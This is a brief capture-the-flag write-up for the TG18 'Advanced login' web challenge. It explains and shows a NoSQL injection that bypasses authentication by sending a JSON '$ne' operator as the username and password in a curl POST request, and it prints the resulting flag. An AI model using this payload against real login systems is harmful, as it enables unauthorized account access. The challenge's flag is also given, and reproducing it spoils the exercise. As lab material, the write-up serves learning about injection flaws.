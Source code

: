 # Writeup [Advanced login](web/advanced-login)

If you inspect the headers the http server returns you can see that the web app uses the javascript framework Express.
In the script.js file we can see that the form on the website posts the content as json. Lets assume the server uses mongodb.
We can then replace the user and pass with `{"$ne": ""}`
That makes the query return every user with username and password not equal to the empty string.

```bash
curl -H "Content-Type: application/json" \
     -X POST \
     -d '{"user": {"$ne": ""}, "pass": {"$ne": ""}}' \
     https://advanced-login.tghack.no/login
```

Then you get the token:
```
TG18{NoSQL_doesn't_mean_not_injectable}
```
